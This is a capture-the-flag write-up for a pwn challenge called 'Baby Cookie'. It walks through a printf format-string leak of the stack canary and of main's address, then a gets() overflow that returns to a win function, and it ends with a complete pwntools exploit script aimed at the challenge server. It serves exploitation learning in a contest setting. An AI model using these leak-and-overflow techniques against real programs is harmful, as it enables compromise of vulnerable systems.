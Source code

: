 # Baby Cookie
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-100-orange)

## Description
```
placeholder - problem hidden
```

## Solution
The `gets` function has a buffer overflow that we can abuse to overwrite the return pointer. But, now there is a stack canary that will terminate the program if we try and do a stack overflow.
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Luckily for us, we also have a printf format string vulnerability that can be used to read the cookie. The stack canary is on the stack, and contains a `00` in its hex representation, making it easy to spot.

We can set a breakpoint right before the printf, run the program until it pauses, and examine the stack.
```
gdb-peda$ stack 50
0000| 0x7ffe6e73cf70 --> 0x562025b91040 --> 0x400000006 
0008| 0x7ffe6e73cf78 --> 0xf0b5ff 
0016| 0x7ffe6e73cf80 --> 0xc2 
0024| 0x7ffe6e73cf88 --> 0x7ffe6e73cfb7 --> 0x562025b9214000 
0032| 0x7ffe6e73cf90 --> 0x7ffe6e73cfb6 --> 0x562025b921400000 
0040| 0x7ffe6e73cf98 --> 0x562025b9244d (<__libc_csu_init+77>:  add    rbx,0x1)
0048| 0x7ffe6e73cfa0 --> 0x7fcc07000a64 
0056| 0x7ffe6e73cfa8 --> 0x562025b92400 (<__libc_csu_init>:     endbr64)
0064| 0x7ffe6e73cfb0 --> 0x0 
0072| 0x7ffe6e73cfb8 --> 0x562025b92140 (<_start>:      endbr64)
0080| 0x7ffe6e73cfc0 --> 0x7ffe6e73d0c0 --> 0x1 
0088| 0x7ffe6e73cfc8 --> 0x38acfc2c2306b300 
```

It's at position 12, which means the actual offset we must pass to printf should be around 12+4=16. This is because offsets 1-4 of printf will actually read from registers instead of the stack. With some trial and error, we can determine that we should leak number 17.

```
What is your name?
%17$p
Hi 0xf4f6f02aa154000
```

Next, we also have to leak the address of the win function, since the program is now positionally independent. Luckily, a few lines down the stack, we have this, at position 23 (find using trial and error):
```
0136| 0x7ffe6e73cff8 --> 0x562025b922a2 (<main>:        endbr64)
```
This points to the start of main, and the distance between the functions is always the same.

```
gdb-peda$ p main - print_flag
$3 = 0x79
```

Now we have everything we need. First, we leak the canary and main address, and then when we perform our buffer overflow, we overwrite the canary and then the return address. Refer to [babyret2win.md](https://github.com/jdabtieu/LyonCTF-white_flag/blob/main/babyret2win.md) for information on finding the return location. The canary will be 16 bytes before the return. Alternatively, we could just read how many stack entries we must overwrite before getting to the return address (`<__libc_start_main+243>:       mov    edi,eax`)

```py
from pwn import *

#p = process("./babycookie")
p = remote("d35bbf2.0x16.ink", 30275)

pay = b'\n'*4 + b'%17$p %23$p'

p.sendline(pay)
p.recvuntil(b"Hi ")
addrs = p.recvuntil(b"\n")[:-1].split(b" ")     # 0xcanary 0xmain_addr\n
canary = int(addrs[0], 16)
main = int(addrs[1], 16)
win = main - 0x79
log.info("Canary: " + hex(canary))
log.info("Main: " + hex(main))
log.info("Win: " + hex(win))
p.recvuntil(b"?\n")

p.send(b'A'*9*8 + p64(canary) + p64(0) + p64(win) + b'\n')   # 9 stack entries + canary + garbage + win
p.interactive()
```


Flag: `placeholder - problem hidden`
